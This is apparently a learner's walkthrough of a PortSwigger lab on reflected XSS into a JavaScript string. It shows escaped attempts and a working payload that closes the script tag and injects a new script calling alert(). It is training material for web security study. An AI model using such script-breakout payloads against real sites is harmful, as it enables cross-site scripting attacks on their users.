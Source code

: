 # Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

```bash
# Search
abc1234

<script>var searchTerms = 'abc1234';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
```bash
'+alert()

var searchTerms = '\'+alert()';

# It automaticly added \ so let's try to escape it.

\'+alert()

var searchTerms = '\\\'+alert()';

# Didn't work.
```

```bash
#Let's try to get out of script tag and let's create our own.

</script><script>alert() </script>
```
